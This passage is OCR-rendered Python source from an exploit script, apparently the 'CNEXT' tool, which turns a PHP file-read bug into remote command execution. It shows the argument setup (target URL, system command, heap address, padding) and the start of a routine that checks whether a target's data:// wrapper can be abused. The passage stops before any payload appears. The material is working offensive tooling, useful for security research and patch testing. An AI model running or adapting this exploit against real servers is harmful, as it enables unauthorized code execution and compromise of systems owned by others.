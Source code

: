 ```python
            print(url)
            raise ValueError("Invalid URL")
        data = self.session.get(url).content
        return data[6:]

@entry
@arg("url", "Target URL")
@arg("command", "Command to run on the system; limited to 0x140 bytes")
@arg("sleep", "Time to sleep to assert that the exploit worked. By default, 1.")
@arg("heap", "Address of the main zend_mm_heap structure.")
@arg(
    "pad",
    "Number of 0x100 chunks to pad with. If the website makes a lot of heap "
    "operations with this size, increase this. Defaults to 20.",
)
@dataclass
class Exploit:
    """CNEXT exploit: RCE using a file read primitive in PHP."""

    url: str
    command: str
    sleep: int = 1
    heap: str = None
    pad: int = 20

    def __post_init__(self):
        self.remote = Remote(self.url)
        self.log = logger("EXPLOIT")
        self.info = {}
        self.heap = self.heap and int(self.heap, 16)

    def check_vulnerable(self) -> None:
        """Checks whether the target is reachable and properly allows for the various
        wrappers and filters that the exploit needs.
        """
        
        def safe_download(path: str) -> bytes:
            try:
                return self.remote.download(path)
            except ConnectionError:
                failure("Target not [b]reachable[/] ?")
            

        def check_token(text: str, path: str) -> bool:
            result = safe_download(path)
            if result in text.encode():
                return True
            return False

        text = tf.random.string(50).encode()
        base64 = b64(text, misalign=True).decode()
        path = f"data:text/plain;base64,{base64}"
        
        result = safe_download(path)
        
        if result not in text:
            msg_failure("Remote.download did not return the test string")
            print("--------------------")
            print(f"Expected test string: {text}")
            print(f"Got: {result}")
            print("--------------------")
            failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")
```